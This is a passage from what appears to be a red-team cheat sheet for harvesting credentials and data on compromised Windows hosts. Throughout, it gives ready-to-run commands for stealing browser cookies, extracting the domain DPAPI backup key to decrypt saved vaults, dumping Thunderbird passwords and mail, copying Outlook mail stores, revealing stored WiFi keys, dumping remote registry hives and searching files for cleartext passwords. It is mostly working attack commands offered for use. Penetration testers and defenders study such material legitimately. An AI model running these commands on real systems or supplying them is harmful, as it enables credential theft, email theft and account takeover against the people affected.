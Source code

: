		- 2\. Retrieve the user's cookies \(if URL’s are passed, then return only cookies matching those URL’s/domain’s\) \(SharpChromium]\): ```SharpChromium.exe cookies (<domain (e.g. github.com)>)```
		- 3\. Copy the cookie in JSON format and import it via the [Cookie\-Editor](https://addons.mozilla.org/nl/firefox/addon/cookie-editor/) plugin\. 
- Targeting multiple user accounts and retrieve all saved browser credentials on the current system \(requires DA privileges; access to DC backup; or DA Read\-Only access to DC\):
	- 1\. Retrieve the domain controller's DPAPI backup key \([SharpDPAPI](https://github.com/GhostPack/SharpDPAPI)\): ```SharpDPAPI backupkey (/server:<FQDN DC>) /file:C:\<path to>\key.pvk```
	- 2\. Using a domain DPAPI backup key to first decrypt any discoverable masterkeys and then search for Vaults and decrypt them \(SharpDPAPI\): ```SharpDPAPI vaults /pvk:C:\<path to>\key.pvk```

#### _Mozilla Thunderbird email & credential dumping:_
- Retrieve saved credentials from Thunderbird \([Thunderfox](https://github.com/V1V1/SharpScribbles)\): ```.\Thunderfox.exe creds (/target:"C:\Users\<username>\AppData\Roaming\Thunderbird\Profiles\<string>.default-release")```
- Retrieve a list of the user's Thunderbird contacts \(Thunderfox\): ```.\Thunderfox.exe contacts```
- Retrieve a detailed list of all emails in Thunderbird \(Thunderfox\): ```.\Thunderfox.exe listmail```
- Read a specific email \(Thunderfox\): ```.\Thunderfox.exe readmail /id:<email ID>```

#### _Outlook e\-mail export:_
In Outlook there are PST and OST files\. PST is used to store file locally whereas OST is an Offline storage used when no server connection is present\.
- 1\. Check the following location for PST or OST mail files:
	```
    C:\users\<username>\AppData\Local\Microsoft\Outlook\
	C:\Users\<username>\Roaming\Local\Microsoft\Outlook\
    ```
- 2\. Kill the outlook process and download all the files
- 3\. To view the content of the files import them in a compatable email client \(free OST viewer application\)

#### _Dump stored WiFi passwords:_
This technique dumps all stored WiFi passwords on the system and can be run without admin privileges\. 
- [Get-WLANPass.ps1](https://github.com/zenosxx/PoshC2/blob/master/Modules/Get-WLANPass.ps1): ```get-wlanpass```
- Native PowerShell:
	- 1\. Show all stored wireless AP names: ```netsh wlan show profile```
	- 2\. Select a AP name copy/paste it in the following command and dump the associated stored password: ```netsh wlan show profile <AP name> key=clear | Select-String -Pattern "Key Content"```

#### _Search registry for passwords:_
- 1\. Remotely dump HKEY\_USERS registry \([impacket](https://github.com/SecureAuthCorp/impacket)\): ```reg.py <domain>/<usename>@<target ip or FQDN> (-hashes :<NTLM>) query -keyName HKU -s |tee hku.reg```
- 2\. Search for stored cleartest passwords \(recommended to search for keywords like "password" or software names\): ```grep "<keyword>" hku.reg (-A3 -B3) -a```

#### _General search queries and tools:_
- Fast file searching and specific keyword identification \(use the '\-c' option to search file contents\) \([SauronEye](https://github.com/vivami/SauronEye)\): ```SauronEye.exe -d C:\<directories to search> -f <filetypes to search for/in (.txt .doc .docx .xls)> (-c) (-k <Keywords to search for (e.g. pass*)>)```
- Recursive file search via PowerShell: ```gci -recurse -include <file name to search for>```
- Recursively list all files in the current directory \(e.g. run from the users home directory\): ```cmd /c dir /S /A```
- Search specific file type (run from C:\): ```findstr /si password *.xml *.ini *.txt``` 
- Search everything that contains the word "password": ```findstr /spin "password" *.*```
- Show hidden files: ```dir -Force```
